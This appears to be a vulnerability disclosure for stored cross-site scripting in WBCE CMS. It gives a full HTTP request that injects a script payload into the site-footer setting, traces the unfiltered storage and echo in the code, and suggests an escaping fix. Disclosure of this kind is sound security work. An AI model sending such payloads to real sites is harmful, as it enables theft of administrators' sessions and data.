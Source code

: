 

Stored Cross-Site Scripting

![image-20231014164109765](https://alious-1314078558.cos.ap-beijing.myqcloud.com/image-20231014164109765.png)

request packet

```
POST /admin/settings/save.php HTTP/1.1
Host: localhost
Content-Length: 744
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost/admin/settings/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: XDEBUG_SESSION=XDEBUG_ECLIPSE; phpsessid-3877-sid=29rsln8q1kfe418al8e5i6i7p5; stElem___stickySidebarElement=%5Bid%3A0%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A1%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A2%5D%5Bvalue%3Aclosedsidebar%5D%23%5Bid%3A3%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A4%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A5%5D%5Bvalue%3Aclosedsidebar%5D%23%5Bid%3A6%5D%5Bvalue%3AnoClass%5D%23; WBCELastConnectJS=1697291720
Connection: close

advanced=no&formtoken=2efc8cf5-8b6dcd39a0b4833bc56072d9bf66c61b8f3c70e7&website_title=aaa&website_description=bbb&website_keywords=ccc&website_header=&website_footer=%3Cscript%3Ealert(345)%3c%2fscript%3e&page_trash=inline&home_folders=true&intro_page=false&frontend_login=false&frontend_signup=4&submit=&default_language=EN&default_timezone=13&default_date_format=d.m.Y&default_time_format=H%3Ai&default_template=wbcezon&default_theme=wbce_flat_theme&search=public&search_template=&page_spacer=-&app_name=phpsessid-3877&sec_anchor=wbce_&server_email=admin%40qq.coms&wbmailer_default_sendername=WBCE+CMS+Mailer&wbmailer_routine=phpmail&wbmailer_smtp_host=&wbmailer_smtp_port=&wbmailer_smtp_secure=&wbmailer_smtp_username=&wbmailer_smtp_password=
```



![image-20231014233644498](https://alious-1314078558.cos.ap-beijing.myqcloud.com/image-20231014233644498.png)

This vulnerability can allow any user with settings privileges to obtain other user information, such as administrators with higher privileges

In /admin/settings/save.php#211

Insert HTML characters directly into the database without filtering

![image-20231014234154490](https://alious-1314078558.cos.ap-beijing.myqcloud.com/image-20231014234154490.png)

Directly used echo in/templates/wbcezon/index.php

![image-20231014234544441](https://alious-1314078558.cos.ap-beijing.myqcloud.com/image-20231014234544441.png)



Repair suggestions:

add Strings::htmlentities
